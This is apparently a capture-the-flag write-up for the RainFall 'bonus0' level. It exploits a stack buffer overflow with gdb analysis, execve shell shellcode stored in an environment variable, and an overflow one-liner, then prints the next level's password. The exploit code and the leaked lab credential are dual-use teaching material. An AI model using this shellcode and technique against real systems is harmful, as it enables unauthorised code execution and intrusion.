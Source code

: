 # Bonus0

This program waits for 2 user inputs. It will concatenate the first 20 characters of the first input with the second input, then print a space and again the second input :

    $ ./bonus0 
    -                       <-- output
    123456789012345678901234567890    <-- first input
    -                       <-- output
    AAAABBBBCCCCDDDD        <-- second input
    12345678901234567890AAAABBBBCCCCDDDD AAAABBBBCCCCDDDD   <-- output

It seems that the buffer of the first input is very large, beacause we can't make it crash with hundreds of characters but only the first 20 characters are taken into account. However, the second input buffer is much smaller :

    $ ./bonus0 
    - 
    1234567890123456789012345678901234567890
    - 
    AAAABBBBCCCCDDDDE
    12345678901234567890AAAABBBBCCCCDDDDE AAAABBBBCCCCDDDDE
    Segmentation fault (core dumped)

The program segfaults when using more than 16 characters. Let's check the registers :

    (gdb) run ""
    Starting program: /home/user/bonus0/bonus0 ""
    - 
    12345678901234567890
    - 
    AAAABBBBCCCCDDDDEEEEFFFFGGGG
    12345678901234567890AAAABBBBCCCCDDDDEEEE��� AAAABBBBCCCCDDDDEEEE���

    Program received signal SIGSEGV, Segmentation fault.
    0x44434343 in ?? ()
    (gdb) i r
    eax            0x0	0
    ecx            0xffffffff	-1
    edx            0xb7fd28b8	-1208145736
    ebx            0xb7fd0ff4	-1208152076
    esp            0xbffff720	0xbffff720
    ebp            0x43424242	0x43424242      <-- CBBB
    esi            0x0	0
    edi            0x0	0
    eip            0x44434343	0x44434343      <-- DCCC
    [...]

That means we can overflow EIP using the 10th - 13th characters.
We don't have enough space in the buffers to pass a shellcode, so we will instead pass it in an environment variable, and get its address.

    $ export PAYLOAD=$(python -c 'print "\x90" * 100 + "\x31\xc0\x31\xdb\x31\xc9\x31\xd2\x52\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x52\x53\x89\xe1\xb0\x0b\xcd\x80"')

This is the same shellcode that was used for the level2.

Now, we need to get its address :

    (gdb) b main
    Breakpoint 1 at 0x80485a7
    (gdb) r
    Starting program: /home/user/bonus0/bonus0 

    Breakpoint 1, 0x080485a7 in main ()
    (gdb) x/500s $esp
    [...]
    0xbfffff45:	 "SSH_CONNECTION=192.168.56.1 60404 192.168.56.102 4242"
    0xbfffff7b:	 "LESSOPEN=| /usr/bin/lesspipe %s"
    0xbfffff9b:	 "PAYLOAD=1\300\061\333\061\311\061\322Rhn/shh//bi\211\343RS\211\341\260\v̀"
    0xbfffffc1:	 "LESSCLOSE=/usr/bin/lesspipe %s %s"
    0xbfffffe3:	 "/home/user/bonus0/bonus0"
    [...]
    (gdb) x/s 0xbfffff9b
    0xbfffff9b:	 "PAYLOAD=1\300\061\333\061\311\061\322Rhn/shh//bi\211\343RS\211\341\260\v̀"

We almost have the shellcode address, we just need to skip the 8 first character (PAYLOAD=). The final address is 0xbfffffa3.

Now we can craft our payload. The first input will only contain 20 characters to fill the buffer, our second input will contain the first 9 characters needed to overflow EIP, then our address, and then some more characters to fill up the buffer.

    bonus0@RainFall:~$ (python -c 'print "A" * 20' ; python -c 'print "B" * 9 + "\xa3\xff\xff\xbf" + "V" * 10' ; cat ) | ./bonus0 
    - 
    - 
    AAAAAAAAAAAAAAAAAAAABBBBBBBBB����VVVVVVV��� BBBBBBBBB����VVVVVVV���
    cd ../bonus1
    cat .pass
    cd1f77a585965341c37a1774a1d1686326e1fc53aaa5459c840409d4d06523c9
